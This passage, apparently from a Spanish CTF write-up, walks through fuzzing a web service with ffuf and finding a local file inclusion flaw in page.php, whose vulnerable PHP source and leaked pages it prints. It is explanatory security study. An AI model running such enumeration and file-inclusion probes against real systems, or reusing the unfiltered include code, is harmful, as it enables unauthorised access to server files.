 ```text
ffuf -u http://52.213.87.125:7788/FUZZ -w SecLists/Discovery/Web-Content/raft-large-files.txt -fc 404 -mc all
```

Por ejemplo, `http://52.213.87.125:7788/2` devuelve tal cual “Las siglas de XSS significan Cross Site Scripting.”. La página principal es un fichero estático **index.html**. Su extracción a través de **page.php**, así como la de **fondo.jpg**, confirma la presencia de una vulnerabilidad LFI (*Local File Inclusion*, inclusión de fichero local).

```html
El contenido del archivo es: <html>
<head>
<title>Datos increibles</title>
<style>
h1{text-align: center;color: #FFFFFF}
a{color: #FFFFFF}
nav{text-align: center}
footer{text-align: center}
</style>
</head>
<body background="fondo.jpg">
<h1>En esta web encontraras datos increibles como estos:</h1>
<nav class="menu">
<a href="page.php?page=1">Archivo 1</a></li>
<a href="page.php?page=2">Archivo 2</a></li>
<a href="page.php?page=3">Archivo 3</a></li>
<a href="page.php?page=4">Archivo 4</a></li>
<a href="page.php?page=5">Archivo 5</a></li>
<a href="page.php?page=6">Archivo 6</a></li>
</nav>
&nbsp;&nbsp;&nbsp;&nbsp;
<footer>
<a href="https://www.freepik.es/foto-gratis/textura-pared-estuco-azul-marino-relieve-decorativo-abstracto-grunge-fondo-color-rugoso-gran-angular_11712554.htm#query=fondo%20azul&position=0&from_view=keyword">Imagen de benzoix en Freepik</a>
</footer>
</body>
</html>
```

Existen numerosos recursos acerca de este problema de seguridad, aunque unas [notas de *xapax* sobre LFI](https://xapax.github.io/security/#attacking_web_applications/local_file_inclusion/) han resultado especialmente interesantes. Podria merecer la pena examinar en detalle su repositorio de documentación.

Incluso **page.php** entrega su propio texto al visitar `http://52.213.87.125:7788/page.php?page=page.php`. La apariencia en un navegador es engañosa: puede dar la impresión de que no ha devuelto nada y que se protege a sí mismo, pero al inspeccionar el código fuente de la página o usar herramientas estilo *curl* o *wget* se observa perfectamente.

```php
El contenido del archivo es: <?php
$file = $_GET['page'];
$file = str_replace("http://", "", $file);
$file = str_replace("https://", "", $file);
$file = str_replace(array("../", "..\""), "", $file);
echo "El contenido del archivo es: " . file_get_contents($file);
?>
```
